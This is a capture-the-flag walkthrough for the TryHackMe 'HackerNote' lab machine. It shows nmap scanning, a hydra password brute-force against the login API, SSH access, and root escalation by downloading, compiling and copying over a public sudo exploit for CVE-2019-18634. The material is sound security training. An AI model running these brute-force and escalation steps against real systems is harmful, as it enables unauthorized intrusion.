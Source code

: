 ```yaml
---
layout: post
title: HackerNote – Try Hack Me
subtitle: Walkthrough
tags: [webbapp]
---
```


HackerNote presents us with a simple web app where the login functionality can be exploited. We will take advantage of this and get full control of the machine.

Learning Objectives:

* Enumeration
* Username Bruteforcing
* Password Bruteforcing
* Priviledge Escalation

[Challenge](https://tryhackme.com/room/hackernote)  

## Task 1 -> Reconnaissance

Initiate the VPN connection and deploy the machine

Add the IP address of our machine to the /etc/hosts

~~~
echo 10.10.69.112 hackernote >> /etc/hosts
~~~

Nmap scan to discover what we are working with

~~~
nmap -A -T5 hackernote
~~~

![nmap](/img/2020-05-04-HackerNote/nmap.png)

## Task 2 -> Investigate

In this section you should explore the webapp capabilities from a new user point of view. 

* Create an account
* Log in
* See how the webapp responds to an invalid user/password

## Task 3 -> Exploit

Looking at the file 'login.js' we find the API endpoint 'api/user/login' this is where we will aim our bruteforce.  
I wrote this exploit using the challenge tips, you must provide the wordlist path in the first argument.


![exploit](/img/2020-05-04-HackerNote/exploit.png)

## Task 4 -> Attack Passwords

Once the utils are installed use the following command to merge the provided wordlists.

~~~
./combinator.bin colors.txt /numbers.txt > wordlist.txt
~~~

Start bruteforcing using hydra with this command

~~~
hydra -l james -P wordlist.txt hackernote http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
~~~


![hydra](/img/2020-05-04-HackerNote/hydra.png)

Now that we discovered both the username and the password we can log into the user account.  
From the notes get the user ssh password

![sshPass](/img/2020-05-04-HackerNote/sshPass.png)

We now can log into the machine through ssh

~~~
ssh james@hackernote
~~~

![ssh](/img/2020-05-04-HackerNote/ssh.png)

## Task 5 -> Escalate

From a quick search with the words 'pwdfeedback' and 'CVE' we find 'CVE-2019-18634'

Download the CVE [exploit](https://github.com/saleemrashid/sudo-cve-2019-18634) and compile it with

~~~
make
~~~

SCP the binary into the machine

~~~
scp ./exploit james@hackernote:/home/james 
~~~

Simply run the exploit and get root.

![root](/img/2020-05-04-HackerNote/root.png)

Hope you enjoyed this machine.
